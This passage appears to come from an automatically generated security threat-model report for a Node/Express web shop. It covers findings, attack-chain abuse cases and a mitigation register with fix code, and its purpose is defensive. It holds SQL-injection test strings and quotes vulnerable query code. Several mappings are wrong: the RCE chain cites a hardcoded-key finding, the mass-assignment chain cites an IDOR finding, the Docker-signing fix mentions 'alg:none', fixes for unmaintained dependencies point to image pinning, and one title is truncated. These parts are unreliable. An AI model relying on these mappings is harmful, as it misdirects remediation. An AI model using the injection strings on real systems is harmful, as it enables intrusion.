**Evidence:** ✓ verified - Line 33 passes the raw err object to `next()` without sanitisation; no custom error handler is confirmed to suppress stack traces before transmission to the caller.

**Fix:** Replace developer error pages with a generic message in production responses → ❸ [M-040](#m-040) — Return generic error messages to clients · ❸ [M-082](#m-082) — Return generic error messages to clients

**Classification:** Cryptographic Failures · [CWE-209](https://cwe.mitre.org/data/definitions/209.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-042"></a><a id="f-042"></a>
#### F-042 · ~~Improper Verification of Cryptographic Signature~~ ⚠

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `.github/workflows/:1`

**Issue:** Docker images are built and pushed to DockerHub in both `ci.yml` and `release.yml` without any signing step. A registry intermediary or compromised DockerHub account could substitute the published image without detection by downstream users.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ⚠ refuted

**Fix:** Pin the signature algorithm explicitly and reject `alg:none` and unknown algorithms → ❸ [M-041](#m-041) — Sign and verify release artifacts · ❸ [M-083](#m-083) — Sign and verify release artifacts

**Classification:** Broken Authentication · [CWE-347](https://cwe.mitre.org/data/definitions/347.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-043"></a><a id="f-043"></a>
#### F-043 · Npm install does not use

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `Dockerfile:5`

**Issue:** The production npm install in the Dockerfile does not pass --ignore-scripts. Any compromised dependency can execute arbitrary postinstall code at build time, enabling supply-chain attacks that persist into the shipped container image.

**Evidence:** ✓ verified

**Fix:** ❸ [M-042](#m-042) — Disable untrusted package install scripts · ❸ [M-084](#m-084) — Disable untrusted package install scripts

**Classification:** Supply-Chain Integrity · [CWE-506](https://cwe.mitre.org/data/definitions/506.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-044"></a><a id="f-044"></a>
#### F-044 · postinstall hook present not audited

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `package.json:88`

**Issue:** A 'postinstall' script is declared in `package.json` without an adjacent '# audited:' annotation. The hook executes automatically during 'npm install', running frontend build steps at install time.

Any supply-chain compromise that injects into the postinstall path executes code for every developer and CI run.

**Evidence:** ✓ verified

**Fix:** ❸ [M-043](#m-043) — Disable untrusted package install scripts · ❸ [M-085](#m-085) — Disable untrusted package install scripts

**Classification:** Supply-Chain Integrity · [CWE-506](https://cwe.mitre.org/data/definitions/506.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-045"></a><a id="f-045"></a>
#### F-045 · ~~Use of Unmaintained Third-Party Components~~ ⚠

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `.github/dependabot.yml:1`

**Issue:** No .github/dependabot.yml exists. npm dependencies are not automatically tracked for security updates. Vulnerable transitive dependencies will persist indefinitely without manual intervention.

**Evidence:** ⚠ refuted

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❸ [M-044](#m-044) — Pin the container base image to an immutable digest · ❸ [M-086](#m-086) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

### 🟢 Low (2)

<a id="t-046"></a><a id="f-046"></a>
#### F-046 · Missing HEALTHCHECK instruction

**Severity:** 🟢 Low  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `Dockerfile:1`

**Issue:** The Dockerfile has no HEALTHCHECK instruction. Container orchestrators cannot detect a hung or poisoned container process and will continue routing traffic to it, prolonging the impact of a runtime compromise.

**Evidence:** ✓ verified

**Fix:** ❹ [M-045](#m-045) — Add a container healthcheck

**Classification:** Error Information Disclosure · [CWE-703](https://cwe.mitre.org/data/definitions/703.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-047"></a><a id="f-047"></a>
#### F-047 · ~~Use of Unmaintained Third-Party Components~~ ⚠

**Severity:** 🟢 Low  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `renovate.json:1`

**Issue:** No `renovate.json` (or alternative Renovate config file) is present in the repository. If Renovate hosted-app is not enabled at the org level, dependency updates rely entirely on manual review, increasing the window for known-vulnerable dependencies to persist.

**Evidence:** ⚠ refuted

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❹ [M-046](#m-046) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

---

_**Evidence verification:** rows tagged `⚠ (evidence refuted)` were re-checked by the Phase 10a evidence-verifier (see `.evidence-verification.json`) and the cited `file:line` did **not** show the claimed weakness. Their raw severity is preserved, but chain-elevation has been suppressed by the triage stage. Rows tagged `◌ (evidence ambiguous)` could not be confirmed or refuted from the cited snippet alone - a human reviewer should decide whether to keep, downgrade, or remove these findings._

---

## 9. Abuse Cases

_Abuse cases describe end-to-end attack scenarios that chain individual findings into an exploitation path. Each case is **mandatory** - defined in the org profile / plugin library and evaluated against every repository. Every chain step references a finding from [§8 Findings Register](#8-findings-register); each step is code-confirmed against the repository and the chain verdict is folded deterministically from the per-step results, never rated by hand._

| # | Scenario | Actor | Combined Risk | Verdict |
|--------|------------------------------------|------------------|-------------|--------------|
| [AC-T-001](#ac-t-001) | Account Takeover via Stored XSS + Token<br/>Hijacking | external-attacker | 🟠 High | ◐ Partially blocked |
| [AC-T-002](#ac-t-002) | Bulk Data Exfiltration via Broken Object<br/>Authorization | authenticated-user | 🔴 Critical | ? Inconclusive |
| [AC-T-003](#ac-t-003) | Privilege Escalation to Admin via JWT<br/>Algorithm Confusion | external-attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-004](#ac-t-004) | Privilege Escalation via Mass-Assignment on<br/>Registration | external-attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-005](#ac-t-005) | Authentication Bypass via Exposed Secret<br/>Material | external-attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-006](#ac-t-006) | Remote Code Execution via Server-Side<br/>Injection | external-attacker | 🔴 Critical | ◐ Partially blocked |

_Verdict: ⚠ Fully viable - no effective control blocks this chain · ◐ Partially blocked - at least one step has a compensating control but the chain is not fully closed · ✓ Mitigated - chain is broken at a verified step · ? Inconclusive - could not be verified end-to-end._

---

### <a id="ac-t-001"></a>AC-T-001 — Account Takeover via Stored XSS + Token Hijacking

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🟠 High · **Verdict:** ◐ Partially blocked

**Goal:** Obtain persistent authenticated access as an arbitrary user without valid credentials.

**Prerequisite:** Attacker can submit content that is later rendered to other users (e.g. feedback, comments, profile fields).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟠 [F-004](#f-004) — SPA Without Backend-for-Frontend Token Storage — `login.component.ts:101`<br/>`frontend/src/app/search-result/search-result.component.ts:132` | Attacker JavaScript executes in the victim's<br/>browser session. |
| 2 | 🟠 [F-004](#f-004) — SPA Without Backend-for-Frontend Token Storage — `login.component.ts:101`<br/>`frontend/src/app/Services/request.interceptor.ts:13` | Token exfiltrated from local/session storage<br/>via the Step 1 payload. |
| 3 | 🟠 [F-015](#f-015) — OAuth Implicit Flow with Derived Predictable Password — `oauth.component.ts:30` | Exfiltrated token accepted for a new<br/>session; absence of token binding / PKCE<br/>removes the last server-side revocation<br/>opportunity. |

**Why combined risk exceeds individual ratings**

Individually the XSS sink and the web-readable token storage rate below Critical, but chained they form a repeatable credential-theft path: a single stored payload causes indefinite session compromise for every user who views the affected page.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❷ [M-004](#m-004) — Store session tokens in HttpOnly, Secure cookies (**P2**): remediating 🟠 [F-004](#f-004) — SPA Without Backend-for-Frontend Token Storage — `login.component.ts:101` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❸ [M-049](#m-049) — Store session tokens in HttpOnly, Secure cookies (**P3**): remediating 🟠 [F-004](#f-004) — SPA Without Backend-for-Frontend Token Storage — `login.component.ts:101` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❷ [M-015](#m-015) — Harden the authentication flow (**P2**): remediating 🟠 [F-015](#f-015) — OAuth Implicit Flow with Derived Predictable Password — `oauth.component.ts:30` breaks the chain at **Step 3**, removing the link the rest of the chain depends on.
- ❸ [M-056](#m-056) — Harden the authentication flow (**P3**): remediating 🟠 [F-015](#f-015) — OAuth Implicit Flow with Derived Predictable Password — `oauth.component.ts:30` breaks the chain at **Step 3**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-002"></a>AC-T-002 — Bulk Data Exfiltration via Broken Object Authorization

> **Source:** mandatory · **Actor:** authenticated-user - authenticated low-privilege user · **Combined Risk:** 🔴 Critical · **Verdict:** ? Inconclusive

**Goal:** Enumerate and exfiltrate other users' records, then escalate own permissions via unguarded mass assignment.

**Prerequisite:** Attacker holds a valid, non-privileged user account.

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-002](#f-002) — Systemic IDOR Missing Ownership Filter — `routes/memory.ts:15`<br/>`routes/basket.ts:19` | Attacker enumerates and retrieves records<br/>for arbitrary object IDs; no ownership<br/>comparison is performed. |
| 2 | 🔴 [F-002](#f-002) — Systemic IDOR Missing Ownership Filter — `routes/memory.ts:15` | Update endpoint persists an unfiltered `role`<br/>(or equivalent) field supplied in the<br/>request body. |

**Why combined risk exceeds individual ratings**

The ownership gap exposes every record, and the mass-assignment gap lets the same low-privilege actor self-elevate - together they turn a single compromised account into full tenant data access and role escalation.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-002](#m-002) — Enforce object-level (ownership) authorization (**P1**): remediating 🔴 [F-002](#f-002) — Systemic IDOR Missing Ownership Filter — `routes/memory.ts:15` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-003"></a>AC-T-003 — Privilege Escalation to Admin via JWT Algorithm Confusion

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Forge an admin-role JWT without knowledge of the signing secret.

**Prerequisite:** Attacker can obtain any valid JWT issued by the system (e.g. by registering a free account).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-001](#f-001) — JWT Algorithm Confusion — `lib/insecurity.ts:191` | Verifier accepts attacker-chosen `alg` (e.g.<br/>`none` or HMAC-with-public-key), allowing<br/>token re-signing without the secret. |
| 2 | 🔴 [F-002](#f-002) — Systemic IDOR Missing Ownership Filter — `routes/memory.ts:15`<br/>`lib/insecurity.ts:159` | Forged `role: admin` claim is accepted as<br/>authoritative because the role is not<br/>re-fetched from the database per request. |

**Why combined risk exceeds individual ratings**

Algorithm confusion alone yields a forgeable token; trusting the in-token role claim turns that forgery into instant admin access - neither gap is Critical in isolation, but the chain is a full authentication bypass.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-001](#m-001) — Enforce JWT signature and algorithm verification (**P1**): remediating 🔴 [F-001](#f-001) — JWT Algorithm Confusion — `lib/insecurity.ts:191` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❶ [M-002](#m-002) — Enforce object-level (ownership) authorization (**P1**): remediating 🔴 [F-002](#f-002) — Systemic IDOR Missing Ownership Filter — `routes/memory.ts:15` breaks the chain at **Step 2**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-004"></a>AC-T-004 — Privilege Escalation via Mass-Assignment on Registration

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Obtain an administrator account without any existing privilege.

**Prerequisite:** Self-registration is open (one unauthenticated POST).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-002](#f-002) — Systemic IDOR Missing Ownership Filter — `routes/memory.ts:15`<br/>`server.ts:483` | The account-creation handler persists the<br/>request body wholesale, so a client-supplied<br/>`role` (or `isAdmin`) field is written verbatim. |

**Why combined risk exceeds individual ratings**

A single unauthenticated request mints an admin account when the registration handler trusts a client-supplied role field - the most direct full-compromise path in role-based apps with open sign-up.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-002](#m-002) — Enforce object-level (ownership) authorization (**P1**): remediating 🔴 [F-002](#f-002) — Systemic IDOR Missing Ownership Filter — `routes/memory.ts:15` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-005"></a>AC-T-005 — Authentication Bypass via Exposed Secret Material

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Forge trusted tokens / credentials and impersonate any user.

**Prerequisite:** Signing material or other secrets are reachable (committed to a public repo, served by an unauthenticated route, or in an exposed directory).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-007](#f-007) — Hardcoded RSA Private Key Enables Offline JWT Forgery for `/b2b/v2` Access — `lib/insecurity.ts:23` | A private key, signing secret, or credential<br/>file is committed to the source repository<br/>or served without authentication. |
| 2 | 🔴 [F-001](#f-001) — JWT Algorithm Confusion — `lib/insecurity.ts:191` | The exposed key/secret is the same one the<br/>server trusts, so a token signed with it (or<br/>the leaked credential) is accepted as<br/>authentic. |

**Why combined risk exceeds individual ratings**

Exposed signing material collapses the entire authentication boundary: any attacker who reads the key can mint a valid token for any identity or role, with no credential ever required.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-007](#m-007) — Move cryptographic keys to a managed secret store (**P1**): remediating 🔴 [F-007](#f-007) — Hardcoded RSA Private Key Enables Offline JWT Forgery for `/b2b/v2` Access — `lib/insecurity.ts:23` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❶ [M-001](#m-001) — Enforce JWT signature and algorithm verification (**P1**): remediating 🔴 [F-001](#f-001) — JWT Algorithm Confusion — `lib/insecurity.ts:191` breaks the chain at **Step 2**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-006"></a>AC-T-006 — Remote Code Execution via Server-Side Injection

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ◐ Partially blocked

**Goal:** Execute arbitrary code in the application process.

**Prerequisite:** An input reaches a server-side interpreter / template / eval.

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-007](#f-007) — Hardcoded RSA Private Key Enables Offline JWT Forgery for `/b2b/v2` Access — `lib/insecurity.ts:23`<br/>`routes/userProfile.ts:62` | Attacker-controlled input is passed to `eval`,<br/>a server-side template engine, an unsafe<br/>sandbox, or an unsafe deserializer. |

**Why combined risk exceeds individual ratings**

A single injection into a server-side interpreter yields code execution in the application process - the highest-impact outcome, granting full filesystem and network access from one unauthenticated request.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-007](#m-007) — Move cryptographic keys to a managed secret store (**P1**): remediating 🔴 [F-007](#f-007) — Hardcoded RSA Private Key Enables Offline JWT Forgery for `/b2b/v2` Access — `lib/insecurity.ts:23` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.

---

## 10. Mitigation Register

Each mitigation block lists the findings it **Addresses**, the CWEs it **Prevents**, and the **Priority** (P1 = before deployment, P2 = current sprint, P3 = next quarter, P4 = backlog). The **Why** / **How** / **Verification** fields are populated only when authored; if a field is omitted, refer to the linked finding's *Evidence* line for file:line context and to the threat-category description in [§8 Findings Register](#8-findings-register) for the underlying weakness.

**Mitigations index:**<br/>❶ [M-001](#m-001) — Enforce JWT signature and algorithm verification<br/>❶ [M-002](#m-002) — Enforce object-level (ownership) authorization<br/>❶ [M-007](#m-007) — Move cryptographic keys to a managed secret store<br/>❶ [M-008](#m-008) — Use parameterized database queries<br/>❶ [M-009](#m-009) — Use parameterized database queries<br/>❶ [M-010](#m-010) — Remove server-side evaluation of untrusted input<br/>❶ [M-011](#m-011) — Disable XML external entity (XXE) resolution<br/>❶ [M-012](#m-012) — Validate and allowlist outbound request targets<br/>❶ [M-013](#m-013) — Remove server-side evaluation of untrusted input<br/>❶ [M-014](#m-014) — Constrain file paths to a safe base directory<br/>❷ [M-003](#m-003) — Add security audit logging<br/>❷ [M-004](#m-004) — Store session tokens in HttpOnly, Secure cookies<br/>❷ [M-005](#m-005) — Apply least-privilege permissions<br/>❷ [M-006](#m-006) — Enforce server-side authorization on every endpoint<br/>❷ [M-015](#m-015) — Harden the authentication flow<br/>❷ [M-016](#m-016) — Verify token signatures before trusting claims<br/>❷ [M-017](#m-017) — Encode output instead of bypassing the framework sanitizer<br/>❷ [M-018](#m-018) — Encode output instead of bypassing the framework sanitizer<br/>❷ [M-019](#m-019) — Encode output instead of bypassing the framework sanitizer<br/>❷ [M-020](#m-020) — Encode output instead of bypassing the framework sanitizer<br/>❷ [M-021](#m-021) — Use parameterized database queries<br/>❷ [M-022](#m-022) — Encode output instead of bypassing the framework sanitizer<br/>❷ [M-023](#m-023) — Drop unnecessary privileges in build and runtime<br/>❷ [M-024](#m-024) — Pin third-party dependencies to immutable versions<br/>❷ [M-025](#m-025) — Pin the container base image to an immutable digest<br/>❷ [M-026](#m-026) — Pin the container base image to an immutable digest<br/>❷ [M-027](#m-027) — Remove public serve-index mounts for encryptionkeys/ and ftp/ or add…<br/>❷ [M-028](#m-028) — Hash passwords with a strong, salted algorithm<br/>❷ [M-029](#m-029) — Return generic error messages to clients<br/>❷ [M-030](#m-030) — Offload CPU-bound work and bound execution time<br/>❷ [M-031](#m-031) — Offload CPU-bound work and bound execution time<br/>❷ [M-032](#m-032) — Rate-limit and lock out repeated authentication attempts<br/>❷ [M-033](#m-033) — Bound parser and decompression resource limits<br/>❷ [M-034](#m-034) — Bound parser resource consumption<br/>❷ [M-035](#m-035) — Document client-side guards as UI-only and ensure all admin API routes…<br/>❷ [M-036](#m-036) — Enforce object-level (ownership) authorization<br/>❷ [M-037](#m-037) — Enforce object-level (ownership) authorization<br/>❷ [M-038](#m-038) — Validate Content-Type of fetched URL and block SVG/HTML uploads in…<br/>❷ [M-047](#m-047) — Data disclosure through cleartext transport<br/>❷ [M-088](#m-088) — Architecture review: validate Data disclosure through cleartext…<br/>❸ [M-039](#m-039) — Attach JWT to Socket\.IO handshake and validate authentication in…<br/>❸ [M-040](#m-040) — Return generic error messages to clients<br/>❸ [M-041](#m-041) — Sign and verify release artifacts<br/>❸ [M-042](#m-042) — Disable untrusted package install scripts<br/>❸ [M-043](#m-043) — Disable untrusted package install scripts<br/>❸ [M-044](#m-044) — Pin the container base image to an immutable digest<br/>❸ [M-048](#m-048) — Add security audit logging<br/>❸ [M-049](#m-049) — Store session tokens in HttpOnly, Secure cookies<br/>❸ [M-050](#m-050) — Apply least-privilege permissions<br/>❸ [M-051](#m-051) — Enforce server-side authorization on every endpoint<br/>❸ [M-052](#m-052) — Disable XML external entity (XXE) resolution<br/>❸ [M-053](#m-053) — Validate and allowlist outbound request targets<br/>❸ [M-054](#m-054) — Remove server-side evaluation of untrusted input<br/>❸ [M-055](#m-055) — Constrain file paths to a safe base directory<br/>❸ [M-056](#m-056) — Harden the authentication flow<br/>❸ [M-057](#m-057) — Verify token signatures before trusting claims<br/>❸ [M-058](#m-058) — Encode output instead of bypassing the framework sanitizer<br/>❸ [M-059](#m-059) — Encode output instead of bypassing the framework sanitizer<br/>❸ [M-060](#m-060) — Encode output instead of bypassing the framework sanitizer<br/>❸ [M-061](#m-061) — Encode output instead of bypassing the framework sanitizer<br/>❸ [M-062](#m-062) — Use parameterized database queries<br/>❸ [M-063](#m-063) — Encode output instead of bypassing the framework sanitizer<br/>❸ [M-064](#m-064) — Drop unnecessary privileges in build and runtime<br/>❸ [M-065](#m-065) — Pin third-party dependencies to immutable versions<br/>❸ [M-066](#m-066) — Pin the container base image to an immutable digest<br/>❸ [M-067](#m-067) — Pin the container base image to an immutable digest<br/>❸ [M-068](#m-068) — Pin the container base image to an immutable digest<br/>❸ [M-069](#m-069) — Manual review: verify Sensitive Files Publicly Browsable via serve-index<br/>❸ [M-070](#m-070) — Hash passwords with a strong, salted algorithm<br/>❸ [M-071](#m-071) — Return generic error messages to clients<br/>❸ [M-072](#m-072) — Offload CPU-bound work and bound execution time<br/>❸ [M-073](#m-073) — Manual review: verify Event-Loop Blocking via MarsDB \$where JavaScript…<br/>❸ [M-074](#m-074) — Rate-limit and lock out repeated authentication attempts<br/>❸ [M-075](#m-075) — Bound parser and decompression resource limits<br/>❸ [M-076](#m-076) — Bound parser resource consumption<br/>❸ [M-077](#m-077) — Manual review: verify Client-Side-Only Admin and Accounting Route Guards<br/>❸ [M-078](#m-078) — Enforce object-level (ownership) authorization<br/>❸ [M-079](#m-079) — Enforce object-level (ownership) authorization<br/>❸ [M-080](#m-080) — Manual review: verify Stored XSS via SVG Profile Image Upload<br/>❸ [M-081](#m-081) — Manual review: verify Unauthenticated Socket\.IO Connection from SPA<br/>❸ [M-082](#m-082) — Return generic error messages to clients<br/>❸ [M-083](#m-083) — Sign and verify release artifacts<br/>❸ [M-084](#m-084) — Disable untrusted package install scripts<br/>❸ [M-085](#m-085) — Disable untrusted package install scripts<br/>❸ [M-086](#m-086) — Pin the container base image to an immutable digest<br/>❸ [M-087](#m-087) — Manual review: verify Data disclosure through cleartext transport<br/>❹ [M-045](#m-045) — Add a container healthcheck<br/>❹ [M-046](#m-046) — Pin the container base image to an immutable digest

### P1 — Immediate

<a id="m-001"></a>
#### M-001 — Enforce JWT signature and algorithm verification

**Addresses:**

- 🔴 [F-001](#f-001) — JWT Algorithm Confusion (`lib/insecurity.ts:191`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `lib/insecurity.ts:191`

**How:** Always pass `algorithms: ['RS256']` (or the project's chosen alg) as the third argument's options object to jwt.verify.

```typescript
// Always verify on the public key; never trust the unsigned header.
const decoded = jwt.verify(token, publicKey, { algorithms: ['RS256'] })
```

**Verification:** Tamper one byte in a valid token's payload and confirm `jwt.verify()` throws.

---

<a id="m-002"></a>
#### M-002 — Enforce object-level (ownership) authorization

**Addresses:**

- 🔴 [F-002](#f-002) — Systemic IDOR Missing Ownership Filter (`routes/memory.ts:15`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `routes/memory.ts:15`

**How:** Replace `req.body.UserId`/`userId`/`ownerId` with `req.user.id` (or equivalent session-derived identity) in every WHERE/filter clause.

```typescript
// Ownership check before touching a resource.
const basket = await Basket.findByPk(req.params.id)
if (!basket || basket.UserId !== req.user.id) return res.status(403).end()
```

**Verification:** Authenticate as user A; request `/api/Baskets/<B's id>` and confirm 403.

---

<a id="m-007"></a>
#### M-007 — Move cryptographic keys to a managed secret store

**Addresses:**

- 🔴 [F-007](#f-007) — Hardcoded RSA Private Key Enables Offline JWT Forgery for `/b2b/v2` Access (`lib/insecurity.ts:23`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `lib/insecurity.ts:23`

**How:**

1. Remove the hardcoded private key from `lib/insecurity.ts`. Generate a fresh RSA-2048 or EC P-256 key pair and inject the private key via environment variable (`process.env.JWT_PRIVATE_KEY`) or a secrets manager (e.g., HashiCorp Vault, AWS Secrets Manager).
2. Add `algorithms: ['RS256']` to the `expressJwt` options object at `insecurity.ts:54` to prevent `alg:none` and `RS256`→`HS256` algorithm-confusion attacks.
3. Rotate all existing JWTs and user sessions after the key is replaced, since any tokens signed with the compromised key must be considered forged.
4. Scan `git history (git-secrets`, trufflehog) and rotate any other hardcoded secrets found in the repository.

```typescript
// lib/insecurity.ts — load key from env, pin algorithm
export const isAuthorized = () => expressJwt({
  secret: publicKey,
  algorithms: ['RS256']
} as any)

// Sign with env-loaded private key:
const privateKey = process.env.JWT_PRIVATE_KEY ?? (() => { throw new Error('JWT_PRIVATE_KEY not set') })()
export const authorize = (user = {}) => jwt.sign(user, privateKey, { expiresIn: '6h', algorithm: 'RS256' })
```

**Reference:** CWE-321

---

<a id="m-008"></a>
#### M-008 — Use parameterized database queries

**Addresses:**

- 🔴 [F-008](#f-008) — SQL Injection Authentication Bypass (`routes/login.ts:34`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `routes/login.ts:34`

**How:**

1. Replace the raw `models.sequelize.query()` call with `UserModel.findOne({ where: { email: req.body.email, password: security.hash(req.body.password), deletedAt: null } })` which uses Sequelize's parameterized ORM layer.
2. Remove the string-template SQL literal entirely; Sequelize ORM calls are parameterized by default and reject injection.
3. Add an integration test that sends `' OR '1'='1` as the email and asserts HTTP 401.

```javascript
// Before (vulnerable):
models.sequelize.query(`SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`, { model: UserModel, plain: true })

// After (safe):
UserModel.findOne({ where: { email: req.body.email || '', password: security.hash(req.body.password || ''), deletedAt: null } })
```

**Reference:** CWE-89

---

<a id="m-009"></a>
#### M-009 — Use parameterized database queries

**Addresses:**

- 🔴 [F-009](#f-009) — SQL Injection (`routes/search.ts:23`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `routes/search.ts:23`

**How:**

1. Replace `models.sequelize.query()` at `routes/search.ts:23` with `ProductModel.findAll({ where: { [Op.or]: [{ name: { [Op.like]: '%' + criteria + '%' } }, { description: { [Op.like]: '%' + criteria + '%' } }], deletedAt: null } })`. Sequelize binds the `%criteria%` value as a parameter, preventing UNION injection.
2. Remove the raw SQL string literal. The 200-char length limit can remain as a defense-in-depth guard but is not a substitute for parameterization.
3. Add a test asserting that `q=')) UNION SELECT` returns an empty result or HTTP 400.

```javascript
import { Op } from 'sequelize'
// Safe replacement:
ProductModel.findAll({
  where: {
    [Op.and]: [
      { deletedAt: null },
      { [Op.or]: [
        { name: { [Op.like]: `%${criteria}%` } },
        { description: { [Op.like]: `%${criteria}%` } }
      ]}
    ]
  },
  order: [['name', 'ASC']]
})
```

**Reference:** CWE-89

---

<a id="m-010"></a>
#### M-010 — Remove server-side evaluation of untrusted input

**Addresses:**

- 🔴 [F-010](#f-010) — Server-Side Template Injection (`routes/userProfile.ts:62`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `routes/userProfile.ts:62`

**How:**

1. Remove the entire `eval()` branch (lines 55-68) from `getUserProfile()`. Template rendering should use entity-encoded strings only.
2. Validate the username field at write time (`updateUserProfile` route) to reject characters used in SSTI patterns (`#{`, `}`, `<`, `>`).
3. Use a template engine with auto-escaping (e.g., Pug with `#{entities.encode(username)}`) rather than string replacement into raw template text.

```javascript
// Safe: replace the eval branch with simple escaping
username = entities.encode(user.username ?? '')
```

**Reference:** CWE-94

---

<a id="m-011"></a>
#### M-011 — Disable XML external entity (XXE) resolution

**Addresses:**

- 🔴 [F-011](#f-011) — XML External Entity Injection (`routes/fileUpload.ts:83`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `routes/fileUpload.ts:83`

**How:**

1. Change `noent: true` to `noent: false` in the libxmljs2.`parseXml` options on `fileUpload.ts:83` to prevent external entity expansion.
2. Additionally set `nonet: true` to block network-based entity URIs.
3. Strip parsed XML content from error messages before passing to `next()`; return a generic 'invalid XML' error string instead.
4. If XML upload is deprecated (as the 410 status suggests), disable the XML parsing branch entirely and reject .xml files at `checkFileType`.

```javascript
// Replace line 83:
const xmlDoc = vm.runInContext(
  'libxml.parseXml(data, { noblanks: true, noent: false, nocdata: true, nonet: true })',
  sandbox, { timeout: 2000 }
)
```

**Reference:** CWE-611

---

<a id="m-012"></a>
#### M-012 — Validate and allowlist outbound request targets

**Addresses:**

- 🔴 [F-012](#f-012) — Server-Side Request Forgery (`routes/profileImageUrlUpload.ts:24`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `routes/profileImageUrlUpload.ts:24`

**How:**

1. Parse the supplied URL before fetch: reject any scheme other than `https:` (block `file:`, `gopher:`, `dict:` etc.).
2. Resolve the hostname to its IP and reject RFC-1918 ranges (10.x, 172.16-31.x, 192.168.x), loopback (127.x, ::1), and link-local (169.254.x) addresses using a library such as `ssrf-req-filter` or `is-ip-private`.
3. Disable automatic redirect following (`redirect: 'error'` in fetch options) to prevent SSRF via open redirects.
4. Consider restricting profile images to direct file upload only (removing URL-based upload), eliminating the SSRF surface entirely.
5. Never write remote content to publicly-served static paths; use a temporary staging directory with content-type validation before moving.

```javascript
import { isPrivateIp } from 'is-ip-private'
import dns from 'node:dns/promises'

const parsed = new URL(url)  // throws on invalid
if (parsed.protocol !== 'https:') throw new Error('Only https URLs allowed')
const addrs = await dns.resolve4(parsed.hostname)
if (addrs.some(a => isPrivateIp(a))) throw new Error('Private/internal URLs blocked')
const response = await fetch(url, { redirect: 'error' })
```

**Reference:** CWE-918

---

<a id="m-013"></a>
#### M-013 — Remove server-side evaluation of untrusted input

**Addresses:**

- 🔴 [F-013](#f-013) — Sandbox Escape (`routes/b2bOrder.ts:23`)

**Priority:** P1 - Immediate · **Effort:** High · **File:** `routes/b2bOrder.ts:23`

**How:**

